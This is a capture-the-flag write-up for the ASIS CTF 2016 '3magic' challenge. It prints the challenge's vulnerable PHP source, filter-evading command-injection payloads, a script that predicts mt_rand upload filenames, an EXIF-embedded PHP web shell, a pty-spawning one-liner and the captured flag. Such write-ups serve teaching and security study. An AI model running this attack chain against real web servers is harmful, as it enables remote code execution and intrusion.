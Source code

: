 ```yaml
---
layout: post
title: "ASIS CTF 2016: 3magic"
category: Security
date: 2016-05-08 22:30:00 -0700
tags:
  - Security
  - CTF
kramdown: true
---
```


We're directed to a web application that provides us with the ability to ping an
arbitrary host.  Like many such web interfaces, this one is vulnerable to
[command injection](https://www.owasp.org/index.php/Command_Injection).  We can
provide flags like -v to get the version of ping being used, but inserting other
characters, like `|`, `;`, or `$()` result in a response of `invalid character
detected`.  Notably, so do spaces and tabs, significantly limiting the ability
to run commands (we'll see how to get around this shortly).

![ping](/img/blog/asis-2016/3magic_start.png)

I spent some time testing various characters and discovered that neither
ampersands nor newlines were included in the filter set, so these could be used
to separate commands.  I could quickly list the files in the current directory
with `&ls`, but couldn't figure out a way to traverse directories.

~~~
files
index.php
pages
~~~

One of my [teammates](http://fadec0d3.blogspot.com/) discovered that you could
use brace expansion to add command arguments, so `&{ls,pages}` lets us list the
pages directory:

~~~
Adm1n1sTraTi0n2.php
ping.php
~~~

`Adm1n1sTraTi0n2.php` looks interesting, but I'd really like to see the source.
Several attempts to get source result in an error of `addr is too long`, which
seems to occur at 15 characters.  Eventually, we hit upon the idea of using the
command `grep -Hr . .` to grep for every line of every file in the current
directory and below.  This looks like `&{grep,-Hr,.,.}` and gives us the source
of every file we're looking at (though not in a very pretty format).  I've
cleaned them up below.

#### index.php

~~~ php
<html>
<head>
  <title>3magic</title>
<body>
  <li>
    <a href='?page=ping'>ping</a>
  </li>
  <?php
    if ($_SERVER['REMOTE_ADDR'] == '127.0.0.1') {
  ?>
      <li>
      <a href='?page=???'>admin</a>
      </li>
  <?php
    }
  ?>
  <hr>
  <?php
  if (isset($_GET['page'])) {
    $p = $_GET['page'];
    if (preg_match('/(:\/\/)/', $p)) {
      die('attack detected');
    }
    include("pages/".$p.".php");
    die();
  }
  ?>
</body>
</html>
~~~

#### ping.php

~~~ php
<p>ping</p>
<form action="./?page=ping" method="POST">
  <input type="text" name="addr" placeholder="addr">
  <input type="submit" value="send">
</form>
<textarea style="width: 300px; height: 300px" placeholder="result">
<?php
if (isset($_POST['addr'])) {
  $addr = $_POST['addr'];
  if (preg_match('/[`;$()| \/\'>"\t]/', $addr)) {
    die("invalid character detected");
  }
  if (strpos($addr, ".php") !== false){
    die("invalid character detected");
  }
  if (strlen($addr) > 15) {
    die("addr is too long");
  }
  @system("timeout 2 bash -c 'ping -c 1 $addr' 2>&1");
}
?>
</textarea>
~~~

#### Adm1n1sTraTi0n2.php

~~~ php
<p>image inspector</p>
<?php
mt_srand((time() % rand(1,10000) + rand(2000,5000))%rand(1000,9000)+rand(2000,5000));
// files directory flushed every 3min
setcookie('test', mt_rand(), time(), '/');
if (isset($_POST['submit'])) {
  $check = getimagesize($_FILES['file']['tmp_name']);
  if($check !== false) {
    echo 'File is an image - ' . $check['mime'];
    $filename = '/var/www/html/3magic/files/'.mt_rand().'_'.$_FILES['file']['name']; // prevent path traversal
    move_uploaded_file($_FILES['file']['tmp_name'], $filename);
    echo "<br>\n";
    system('/usr/bin/file -b '.escapeshellarg($filename));
    echo "<br>\n";
  } else {
    echo "File is not an image";
  }
}
?>
<form action="?page=Adm1n1sTraTi0n2" method="post" enctype="multipart/form-data">
  Select image to upload:
  <input type="file" name="file">
  <input type="submit" value="Upload Image" name="submit">
</form>
~~~

So, we have a file upload with validation to test if the image is, in fact, an image.
(`getimagesize` is pretty hard to fake.)  We can upload arbitrary files, but I'm not
sure if we can get them included thanks to the detection of slashes in the include in
index.php.  There's also the small matter of predicting the value of `mt_rand()` used
in the filename.  On second glance, I realize there's nothing stopping us from
uploading a file whose extension is `.php`, but there's still the matter of
`mt_rand()`.  It actually took me several minutes before I noticed the cookie
being set, leaking a value from `mt_rand()`.  I know `mt_rand` isn't secure and
should be predictable, but I'm not sure how to do it.

It turns out there's a [tool out there](http://download.openwall.net/pub/projects/php_mt_seed/) to find the seed from a returned value of
`mt_rand`, except it turns out it takes about 10 minutes on my laptop.  I
realized the `mt_srand` call to seed `mt_rand` looked a little bit funny with
all the math.  Working it through, I realized that, rather than a full 2**32
range for the seed, the entire working range is only between 3000 and 14000.
With this range, it turned out a small PHP script was a better option to figure
out the next `mt_rand` value:

~~~ php
<?PHP
for($i=3000;$i<=14000;$i++) {
  mt_srand($i);
  if (mt_rand() == $argv[1]) {
    print mt_rand();
    print "\n";
    break;
  }
}
~~~

With this tool, I was able to predict full filenames, and could upload images
with the extension `.php`.  To get code execution, I added `<?PHP
passthru($_GET['x']); ?>` as the EXIF comment in a JPEG image and uploaded it as
a `.php` file.  I was quickly able to confirm both that my script and the PHP
embedded worked by listing the directory.

Now, to find the flag.  It wasn't in the working directory or the document root,
so I checked the root of the system, and found a file named `flag`, but it
turned out it was only readable by the user `flag`, and I was running as
`www-data`.  However, it turned out that there was also a program `/read_flag`,
but attempting to call it from my PHP shell resulted in a Segmentation Fault.
So I started a shell with netcat, and tried from this shell.  Still, a
segmentation fault.  Maybe it needed a pty?  Fortunately, there's a nice python
one-liner to allocate a pseudo terminal: `python -c "import pty;pty.spawn('/bin/bash')"`
Running `/read_flag` from this point gave results:

~~~
www-data@web-tasks:~/html/3magic/files$ /read_flag
/read_flag
Write "*please_show_me_your_flag*" on my tty, and I will give you flag :)
*please_show_me_your_flag*
*please_show_me_your_flag*
ASIS{015c6456955c3c44b46d8b23d8a3187c}
~~~
